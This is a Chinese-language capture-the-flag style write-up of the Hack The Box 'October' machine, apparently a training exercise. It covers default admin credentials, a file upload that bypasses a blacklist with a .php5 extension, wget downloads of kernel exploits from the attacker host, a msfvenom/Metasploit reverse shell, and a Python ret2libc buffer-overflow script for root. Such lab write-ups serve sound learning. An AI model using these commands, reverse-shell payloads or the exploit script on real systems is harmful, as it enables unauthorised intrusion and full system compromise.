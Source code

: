 ```yaml
---
title: october（弱密码+文件上传）
categories:
- training
tags:
- training
---
```

10.10.14.7

```
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 79:b1:35:b6:d1:25:12:a3:0c:b5:2e:36:9c:33:26:28 (DSA)
|   2048 16:08:68:51:d1:7b:07:5a:34:66:0d:4c:d0:25:56:f5 (RSA)
|   256 e3:97:a7:92:23:72:bf:1d:09:88:85:b6:6c:17:4e:85 (ECDSA)
|_  256 89:85:90:98:20:bf:03:5d:35:7f:4a:a9:e1:1b:65:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Potentially risky methods: PUT PATCH DELETE
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: October CMS - Vanilla
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
第一步，确定版本漏洞和exp
searchsploit Vanilla，

searchsploit october，没有直接可用exp

第二步，得知有很多exp，于是检查目标的详细版本
```
nikto -h 10.10.10.16

Server: Apache/2.4.7 (Ubuntu)
+ Retrieved x-powered-by header: PHP/5.5.9-1ubuntu4.21
```
手动翻网页，没有找到版本信息，于是dirbuster fuzz一下目录。

结果是目录很干净，除了论坛、用户、博客三个目录，有用信息不多。

http://10.10.10.16/forum

第三步，分析exp
searchsploit -m exploits/php/webapps/25720.txt
leafpad /root/Desktop/16/25720.txt

---
找到了后台：`http://10.10.10.16/backend/backend/auth/signin`
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/6.PNG)

admin/admin，登陆成功

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/5.PNG)
尝试文件上传，txt可以上传，php不可以，PHP不可以。

![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/7.PNG)
但是php5可以，说明是黑名单的限制方式。

## 获得一个shell
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/8.PNG)

#### info enum:
```
os: Ubuntu 14.04 (Linux 4.4.0-78-generic)
whoami: www-data
exist user: syslog:x:101:104::/home/syslog:/bin/false
      		harry:x:1000:1000:Harry Varthakouris,,,:/home/harry:/bin/bash
```
## trying1：检查web config文件，查找口令
```
grep -R pass .
OctoberCMSPassword!!

python -c 'import pty; pty.spawn("/bin/bash")'
```
获取bash shell，尝试用口令登陆。登陆farry用户失败。

## trying2: 尝试数据库登陆
发现数据库以mysql用户运行。
```
ps -ef | grep mysql
mysql     1197     1  0 Feb18 ?        00:02:16 /usr/sbin/mysqld

netstat -an
unix  2      [ ACC ]     STREAM     LISTENING     10089    /var/run/mysqld/mysqld.sock
```
## trying3: 上传sh脚本
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/1.PNG)
有gcc，于是可以尝试内核漏洞
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/2.PNG)

```
wget http://10.10.14.7/dirty.c
wget http://10.10.14.7/dirtyc0w.c

wget http://10.10.14.7/chocobo_root 
执行结果：i have no offsets for this kernel version..
```
执行了三个exp，都失败了

## trying4: 上传msf反弹payload

msfconsole -r job.rc 执行监听
```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 10.10.14.7
set LPORT 7766
run
```
将载荷发送到目标机，并且运行。
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.10.14.7" LPORT=7766 -f elf -o 123`

![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/11.PNG)

```
[+] 10.10.10.16 - exploit/linux/local/apport_abrt_chroot_priv_esc: The target is vulnerable.
[+] 10.10.10.16 - exploit/linux/local/netfilter_priv_esc_ipv4: The target appears to be vulnerable.  编译时缺少模块libc6-dev-i386，失败
[+] 10.10.10.16 - exploit/linux/local/pkexec: The target service is running, but could not be validated. 
[*] Post module execution completed

set SESSION 1
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 10.10.14.7
set LPORT 8899
show options
run 失败
```
## writeup: suid程序以及python exploit编写
之前用脚本检查过suid权限，但是/usr/local/bin/ovrflw，并不是常见的suid 提权程序，于是被我忽略了...
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/3.PNG)

ovrflw是一个二进制程序，有缓冲区溢出漏洞，可惜我还不会写利用程序。
`cd /usr/local/bin;./ovrflw`

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/4.PNG)

overflow.py
```
import struct, subprocess
libcBase = 0xb75eb000
systemOffset = 0x00040310
binShOffset = 0x00162bac
libcAddress = struct.pack("<I", libcBase+systemOffset)
exitAddress = struct.pack("<I", 0xd34db33f)
binShAddress = struct.pack("<I", libcBase+binShOffset)
payload = "\x90"*112
payload += libcAddress
payload += exitAddress
payload += binShAddress
i = 0
while True:
	i += 1
	if i%10 == 0:
		print "Attempts: " + str(i)
	subprocess.call(["/usr/local/bin/ovrflw", payload])
```
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/9.PNG)

## 总结
编写python脚本，利用段错误，通过缓冲区溢出得到root权限，需要很多基础，不是一时半会儿能学会的。继续加油吧


